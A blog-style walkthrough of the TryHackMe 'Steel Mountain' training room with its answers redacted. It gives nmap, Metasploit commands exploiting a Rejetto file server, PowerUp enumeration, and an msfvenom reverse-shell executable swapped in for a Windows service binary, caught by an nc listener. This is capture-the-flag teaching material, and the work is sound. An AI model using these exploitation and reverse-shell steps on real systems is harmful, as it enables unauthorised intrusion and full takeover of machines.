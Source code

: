 ```yaml
---
layout: post
title: TryHackMe-SteelMountain 
subtitle: Walkthrough
tags: [Windows, Metasploit, Privilege Escaltion]
image: pictures/Steel_Mountain/steelmountain.jpg
comments: true
---
```



Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

You can access this room here: [SteelMountain](https://tryhackme.com/room/steelmountain)

__You will need a subscription to complete this box__
## Table of Contents

- [Task 1: Introduction](#introduction)
- [Task 2: Initial Access](#initial-access)
- [Task 3: Privilege Escalation](#privilege-escalation)
<!--- [Task 4: Access and Escalation Without Metasploit](#access-and-escalation-without-metasploit) --> 


### Introduction

**Let's Begin!**


**Question 1: Deploy the machine. Who is the employee of the month?**
  
Deploy the box and run a nmap scan!

~~~
nmap -sC -sV <boxip> 
~~~

 ![nmap_scan](/pictures/Steel_Mountain/nmap_scan.png)

We have two http services running, let's take a look at those websites!  Access the web service running on port 80
~~~
http://boxip:80
~~~

Right clik the image and click on image info. The name of the image will be our first flag! 
![alt text](/pictures/Steel_Mountain/Flag1.png)


{: .box-success}
**Flag 1 :** XXX XXXXXX

### Initial Access

**Question 1: Scan the machine with nmap. What is the other port running a web server on?**
 
  Nmap already found what port the other web server was running.  
 
 {: .box-success}
**Flag :**XXXX

**Question 2: Take a look at the other web server. What file server is running?**

Access the webserver on port 8080 
~~~
http://boxip:8080
~~~

![alt text](/pictures/Steel_Mountain/port8080.png)

If you look at the bottom left hand corner we see the file server version. If we click on the blue link it takes us to "Rejetto.com". Put two and two together and you now have your answer for the next flag! 

{: .box-success}
**Flag 2.2 :** XXXXXXX XXXX XXXX XXXXXX

**Question 3: What is the CVE number to exploit this file server?**

There are a lot of different ways to obtain the answer to this question, but I chose the quick route and googled 'Rejetto HTTP File Server Exploit'. This leads me to websites from Exploitdb and rapid7! Pick one and scroll down and you will find the CVE number. 

{: .box-success}
**Flag 2.3 :** XXXX-XXXX
 
> Question 4: Use Metasploit to get an initial shell. What is the user flag?
 
 Since rapid7 is the creator of Metasploit, it is a good bet that our CVE will be on metasploit. Let's run metasploit and exploit this box. 
 ~~~
 - msfconsole 
 - search rejetto 
 - use 0
 - set RHOST <boxip> 
 - set RPORT <8080>
 - set srvhost <vpn-ip>
 - run
~~~

 ![meterpreter shell](/pictures/Steel_Mountain/meterpreter1.png)
 
 It looks like that exploit worked! We now have a meterpreter shell on the vulnerable machine. Type 'pwd' to find out what directory you are in. 

 Navigate to bill's 'Desktop' directory where you will find the user.txt file. Read the file and you will have your flag! 


![flag2.4](/pictures/Steel_Mountain/Flag2_3.png)


{: .box-success}
**Flag2.4 :** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



### Privilege Escalation


  Now that we have a shell on this machine it is time to enumerate it! This room introduces us to PowerUp, a powershell script that is designed "to evaluate a Windows machine and determine any abnormalities". 

  You can download it from here [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) , or you can _open another terminal_ and run this command. 

~~~
curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 --output PowerUp.ps1

~~~

This will output a copy of the file to your current directory. Switch back to the terminal that has your meterpreter shell running and upload the file. Once you have uploaded it, you will need to load up powershell and run the commands given. 

 
 ![meterpreter upload](/pictures/Steel_Mountain/meterpreterupload.png)
 
 ```
  ps> . . \PowerUp.ps1
  ps> Invoke-AllChecks
 ```

The enumeration file should start to run and you should get back some information on what service is running on this machine. Locate the services that have 'CanRestart' option set equal to 'True'. This will be your answer for the next flag! 

![flag3.2](/pictures/Steel_Mountain/psscan.png)


{: .box-success}
**Flag :** XXXXXXXXXXXXXXXXXXX 


**Question 3: Use msfvenom to generate a reverse shell as an Windows executable. 
Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.**


Let's give it a shot! First lets create a reverse shell using msfvenom and output it to a file witht the same name. Open up a new terminal and enter the following command:

~~~
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
~~~

Once that is done, switch back to your exploited machine and ctrl-c out of powershell and upload the malicious replicate file. 

![msfvenom](/pictures/Steel_Mountain/msfvenom.png)

After the uploading is complete, drop into a shell by entering 'shell'. Once you have a shell, enter this command to stop the service. 

~~~
 > sc stop AdvancedSystemCareService9 
~~~

Perfect! We have stopped the service, now we need to switch it out with our malicious one. 

![Malware](/pictures/Steel_Mountain/copyASC.png)

We now have to open a new terminal, start a listening session on port 4443 and then start the service. **Create a listening session first!**

~~~
- New terminal: nc -nlvp 4443
- Exploited Terminal: sc start AdvancedSystemCareService9
 ~~~

Boom! You will see a shell pop up on your listening terminal and you will have root access to the machine!

{: .box-success}
**No Answer Needed** 

On your new terminal, navigate to Administrator's Desktop and print out root.txt

![Final Flag](/pictures/Steel_Mountain/Final_flag.png)


**Question #4: What is the root flag?**


{: .box-success}
**FLAG :**XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



 



<!--
### Access and Escalation Without Metasploit

 The final task walks you through how to get access and escalation withoug using metasploit. 
 I won't walk you through but here is the answer to question 2:

{: .box-success}
 *powershell -c "Get-Service"*
{: .box-note}
*Note:** This is a notification box.### Warning {: .box-warning *Warning:** This is a warning box.### Error<!-- {: .box-error}**Error:** This is an error box. -->



